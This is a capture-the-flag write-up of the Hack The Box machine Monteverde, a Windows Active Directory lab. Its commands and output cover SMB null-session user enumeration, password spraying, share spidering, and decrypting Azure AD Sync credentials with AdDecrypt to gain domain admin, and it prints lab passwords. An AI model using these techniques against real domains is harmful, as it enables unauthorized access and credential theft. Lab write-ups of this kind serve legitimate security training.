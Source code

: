 ```yaml
---
title: Monteverde - Medium HTB
date: 2023-12-27 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /monteverde
tags: [AD, Azure]     # TAG names should always be lowercase
---
```


![PP](assets/Monteverde/PP.png)

## **Scanning :**

lets start with an nmap scan to discoverd open ports and services : 

```bash
> nmap -sC -sV -T4 -sS 10.10.10.172 -Pn

53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-26 15:26:29Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-12-26T15:26:34
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
```

Add the domain and the FQDN to your `/etc/hosts` file : 

```bash
echo "10.10.10.172 MEGABANK.LOCAL MONTEVERDE.MEGABANK.LOCAL" >> /etc/hosts
```

## **Enumerate smb:**

We can try to acces at the smb using null session : 

```bash
> crackmapexec smb 10.10.10.172 -u "" -p ""

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\:
```

it work we can acces to the smb service without creds, lets try to enumerate domain users also with CME : 

```bash
> crackmapexec smb 10.10.10.172 -u "" -p "" --users

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\: 
SMB         10.10.10.172    445    MONTEVERDE       [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.172    445    MONTEVERDE       [+] Enumerated domain user(s)
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\AAD_987d7f2f57d2               Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\mhope                          
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\SABatchJobs                    
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\svc-ata                        
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\svc-bexec                      
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\svc-netapp                     
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\dgalanos                       
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\roleary                        
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\smorgan
```

Creat a user list : 

```bash
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata 
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```

## **Password spraying :**

If we try password spraying we found valid creds : 

```bash
> crackmapexec smb 10.10.10.172 -u "user.txt" -p "user.txt" --continue-on-succes | grep '[+]'

SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Re try to list the smb share : 

```bash
> crackmapexec smb 10.10.10.172 -u "SABatchJobs" -p "SABatchJobs" --shares

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.10.10.172    445    MONTEVERDE       [*] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ            
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       users$          READ
```

## **Foothlod:**

use CME to list all accessible files in a json file.

```bash
> crackmapexec smb 10.10.10.172 -u "SABatchJobs" -p "SABatchJobs" -M spider_plus
```

On .json create by CME, we can see that there is an xml file on the machine in the user$ share will see this:

```bash
"azure_uploads": {},
    "users$": {
        "mhope/azure.xml": {
            "atime_epoch": "2020-01-03 14:41:18",
            "ctime_epoch": "2020-01-03 14:39:53",
            "mtime_epoch": "2020-01-03 15:59:24",
            "size": "1.18 KB"
        }
    }
```

Use smbclient to connect on the share : 

```bash
> smbclient //10.10.10.172/users$ -U 'SABatchJobs%SABatchJobs'
```

Download the file on your local machine and open it. We can see that the file contains a password but without user we can try to find the password with our list of users.

```bash
> crackmapexec smb 10.10.10.172 -u user.txt -p password.txt --continue-on-succes | grep '[+]'

SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
```

## Privileges Escalation **:**

To automate enumeration, we can launch winpeas.exe. Use evil-winrm to upload it on the target:

```bash
#evil-winrm shell
uplaod winpeas.exe

# launch winpeas
.\winpeas.exe
```

There are a lot of interesting things notably Azure softwares.

```bash
╔══════════╣ Installed Applications --Via Program Files/Uninstall registry--
╚ Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\internet explorer
    C:\Program Files\Microsoft Analysis Services
    C:\Program Files\Microsoft Azure Active Directory Connect
    C:\Program Files\Microsoft Azure Active Directory Connect Upgrader
    C:\Program Files\Microsoft Azure AD Connect Health Sync Agent
    C:\Program Files\Microsoft Azure AD Sync
```

After a lot of research I saw that the software "Azure AD Sync" can be operated voicie a blog that explains well the operating process: https://blog.xpnsec.com/azuread-connect-for-redteam/

So I look for a tool that would allow me to do that and I came across this https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/. First go download the binary and then do the following steps.

*PS when you upload the tool don’t forget to upload also the dll file :

```bash
#move to the good directory
> cd 'C:\Program Files\Microsoft Azure AD Sync\bin'

#Execute the tool with the full path and the '-FullSQL' option
> C:\Users\mhope\Documents\AdDecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

Test the credential with CME: 

```bash
> crackmapexec smb 10.10.10.172 -u 'Administrator' -p 'd0m@in4dminyeah!'

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\Administrator:d0m@in4dminyeah! (admin)
```

Yes we are Domain admin ! Get the flag 

```bash
crackmapexec smb 10.10.10.172 -u 'Administrator' -p 'd0m@in4dminyeah!' -x 'more C:\Users\Administrator\Desktop\root.txt'
```

MONTEVERDE  rooted GG ! it was my first experience in a Azure pentesting environment and its fun 😁

### **Credit for root :**

exploit azure connect : https://blog.xpnsec.com/azuread-connect-for-redteam/
